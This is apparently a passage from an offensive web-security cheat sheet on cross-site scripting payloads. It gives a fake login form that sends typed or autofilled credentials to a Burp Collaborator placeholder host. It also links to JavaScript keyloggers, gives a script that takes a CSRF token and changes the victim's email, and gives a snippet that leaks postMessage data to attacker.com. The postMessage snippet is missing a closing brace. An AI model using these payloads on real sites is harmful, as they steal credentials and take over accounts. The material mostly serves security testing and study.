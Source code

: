 ```javascript
<b>Username:</><br>
<input name=username id=username>
<b>Password:</><br>
<input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

When any data is introduced in the password field, the username and password is sent to the attackers server, even if the client selects a saved password and don't write anything the credentials will be ex-filtrated.

### Keylogger

Just searching in github I found a few different ones:

- [https://github.com/JohnHoder/Javascript-Keylogger](https://github.com/JohnHoder/Javascript-Keylogger)
- [https://github.com/rajeshmajumdar/keylogger](https://github.com/rajeshmajumdar/keylogger)
- [https://github.com/hakanonymos/JavascriptKeylogger](https://github.com/hakanonymos/JavascriptKeylogger)
- You can also use metasploit `http_javascript_keylogger`

### Stealing CSRF tokens

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/email',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/email/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

### Stealing PostMessage messages

```html
<img src="https://attacker.com/?" id=message>
<script>
 window.onmessage = function(e){
 document.getElementById("message").src += "&"+e.data;
</script>
```
